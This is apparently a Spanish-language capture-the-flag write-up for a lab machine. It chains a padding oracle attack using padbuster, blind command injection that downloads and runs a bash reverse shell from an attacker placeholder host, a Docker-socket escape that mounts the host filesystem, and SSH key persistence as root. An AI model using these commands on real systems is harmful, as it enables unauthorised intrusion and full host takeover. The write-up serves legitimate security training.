








## Reconocimiento
Lanzamos nmap a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC 10.10.155.195 -Pn -n -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-13 11:57 CEST
Nmap scan report for 10.10.155.195
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 49:41:3d:ae:d6:d6:53:bc:f4:89:b2:cd:4b:d0:36:45 (RSA)
|   256 fb:41:58:39:98:db:6b:6d:87:47:29:b5:67:3a:27:13 (ECDSA)
|_  256 66:46:56:c6:65:96:52:5e:4c:4c:14:3d:cb:99:8d:7a (ED25519)
8080/tcp open  http    Octoshape P2P streaming web service
|_http-title: Hello world!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos al sitio web por el puerto 8080, vemos un portal con *"Oracle"* bien grande, con dos apartados y un botón para acceder al panel de administración:


Si accedemos al apartado *"Stefan Test"*, nos muestra unos mensajes de tareas pendientes, donde nos dan dos grandes pistas para resolver el reto (*Padding + Oracle* ;)):


Seguimos con el reconocimiento, encontramos en el código fuente del fichero *debug.html* una función que muestra el tipo de algoritmo de cifrado, un endpoint interno y un token que se envía por método GET.


Probamos a cambiar *localhost* por la dirección IP de la máquina, vemos que nos devuelve un "*Custom authentication success*" si es correcto el token, y en caso contrario, nos devolverá un error diferente, esto nos permitirá explotar el [*Padding Oracle*](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle). 
Este token, debería de contiene las credenciales de acceso en este formato *"user:password"*:



## Explotación
Con estos datos, ya tenemos todo lo suficiente para poder realizar un *Padding Oracle Attack*, yo utilicé la herramienta **padbuster**:

```
> padbuster http://10.10.155.195:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 16 -encoding 2

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 29

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 4 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     29      N/A
2 **    255     500     16      N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (133/256) [Byte 16]
[+] Success: (250/256) [Byte 15]
<SNIP>

Block 4 Results:
[+] Cipher Text (HEX): ****************************
[+] Intermediate Bytes (HEX): ****************************
[+] Plain Text: 9

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): ****************************

[+] Decrypted value (HEX): ****************************

[+] Decrypted value (Base64): ****************************

-------------------------------------------------------
```

Con las credenciales de acceso en nuestro poder, nos autenticamos en el panel de administración y logramos obtener una flag.

También encontramos la siguiente parte del reto, un formulario donde permite ejecutar comandos del sistema:


Hacemos una prueba con el comando "***id***", vemos que devuelve un "*Ok*", pero también detectamos que no están permitidos la ejecución de todos los comandos, tampoco se nos muestra la información por la pantalla (solo el mensaje *"Ok"*), por lo que la respuesta es "*ciega*" y tendremos que averiguar alguna forma de saber si se está ejecutando en la máquina víctima:


Levantamos un servidor HTTP con **Python** y probamos a descargar algo con el binario **wget**, donde se puede evidenciar que funciona, siendo una posible vía de explotación:


Creamos un fichero **m3.sh** con una reverse shell:
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1
```
Ejecutamos el siguiente one-liner para conseguir descargar y ejecutar nuestra reverse shell sobre la máquina víctima:
```
http://10.10.155.195:8080/api/admin/exec?cmd=wget%20IP_ATACANTE/m3.sh%20%20-O%20/tmp/m3.sh|bash%20/tmp/m3.sh
```
Logramos acceso a la máquina como root, por el nombre de *hostname*, parece que está sobre un contenedor con **Docker**:


Leemos el fichero *docker-compose.yml*, obtenemos las credenciales del anterior panel de administración y el resto de flags para resolver el reto (a excepción de la root flag):
```bash
root@02e849f307cc:/app# cat docker-compose.yml
cat docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=******************
      - CTF_PASSWORD=******************
      - CTF_ENCRYPTION_KEY=******************
      - CTF_ENCRYPTION_IV=******************
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=THM{******************}
      - CTF_ADMIN_PANEL_FLAG=THM{******************}      
root@02e849f307cc:/app# 
```

## Escalada de privilegios
Arreglamos el problema con tty importando la librería "*pty*" con **Python3**.

Con acceso como root en **Docker** podemos listar los repositorios disponibles para levantar contenedores con **Docker**:
```
root@02e849f307cc:/# python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
root@02e849f307cc:/# docker images
docker images
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```

Utilizamos el repositorio *openjdk*, montando la raiz del sistema anfitrión dentro de la carpeta "*m3n0s*", logrando leer el fichero *flag.txt* del usuario root:
```
root@02e849f307cc:/# docker run -v /:/m3n0s --rm -it openjdk:11 sh
docker run -v /:/m3n0s --rm -it openjdk:11 sh
# ls -lna
ls -lna
total 76
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 .
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 ..
-rwxr-xr-x   1 0 0    0 Jul 13 13:07 .dockerenv
drwxr-xr-x   1 0 0 4096 Aug  2  2022 bin
drwxr-xr-x   2 0 0 4096 Jun 30  2022 boot
drwxr-xr-x   5 0 0  360 Jul 13 13:07 dev
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 etc
drwxr-xr-x   2 0 0 4096 Jun 30  2022 home
drwxr-xr-x   1 0 0 4096 Aug  1  2022 lib
drwxr-xr-x   2 0 0 4096 Aug  1  2022 lib64
drwxr-xr-x  19 0 0 4096 Jul 13 09:53 m3n0s
drwxr-xr-x   2 0 0 4096 Aug  1  2022 media
drwxr-xr-x   2 0 0 4096 Aug  1  2022 mnt
drwxr-xr-x   2 0 0 4096 Aug  1  2022 opt
dr-xr-xr-x 192 0 0    0 Jul 13 13:07 proc
drwx------   1 0 0 4096 Aug  2  2022 root
drwxr-xr-x   3 0 0 4096 Aug  1  2022 run
drwxr-xr-x   1 0 0 4096 Aug  2  2022 sbin
drwxr-xr-x   2 0 0 4096 Aug  1  2022 srv
dr-xr-xr-x  13 0 0    0 Jul 13 13:07 sys
drwxrwxrwt   1 0 0 4096 Aug  2  2022 tmp
drwxr-xr-x   1 0 0 4096 Aug  1  2022 usr
drwxr-xr-x   1 0 0 4096 Aug  1  2022 var
# cd m3n0s
cd m3n0s
# ls
ls
bin   dev  flag.txt  lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  etc  home      lib32  libx32  media       opt  root  sbin  srv   tmp  var
# cat flag.txt
cat flag.txt
THM{**********************************}
```
¡Pero aquí hemos venido a jugar! ¡Vamos a por el root! (*¿O era a por el Bote?*)

Podríamos conseguirlo de diferentes formas, pero mi recomendación sería utilizar servicios nativos por dos sencillas razones:
1. Conexión SSH o cualquier otro servicio de acceso remoto desplegado en la máquina, evitaremos hacer "*ruido*" innecesario, minimizando el riesgo a ser detectados por equipos de seguridad y/o sistemas de detección de intrusos. *(Es importante tomar buenas costumbres en laboratorios controlados, para no viciarnos en entornos reales)*
2. Tendremos una sesión más estable.

Compartimos nuestra clave pública en el fichero *authorized_keys* del directorio */root/.ssh/*:
```
# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBV2m/q3jym/x/CGxBZFJO+htVx4R25nzjXWTQER9FWJ' >> authorized_keys
```
Posteriormente, conectamos por **SSH** como root, indicando con *-i*  la ruta a nuestra clave privada (*siempre y cuando no se encuentre en el directorio raíz de nuestro usuario*):
```
> ssh root@10.10.155.195 -i clave_privada
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 13 13:13:23 UTC 2024

  System load:                      0.1
  Usage of /:                       10.4% of 38.71GB
  Memory usage:                     18%
  Swap usage:                       0%
  Processes:                        188
  Users logged in:                  0
  IPv4 address for br-65b390c52543: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.155.195

  => There are 44 zombie processes.


132 updates can be installed immediately.
11 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

3 updates could not be installed automatically. For more details,
see /var/log/unattended-upgrades/unattended-upgrades.log


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ip-10-10-155-195:~# id && hostname && date
uid=0(root) gid=0(root) groups=0(root)
ip-10-10-155-195
Sat Jul 13 13:13:43 UTC 2024
```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!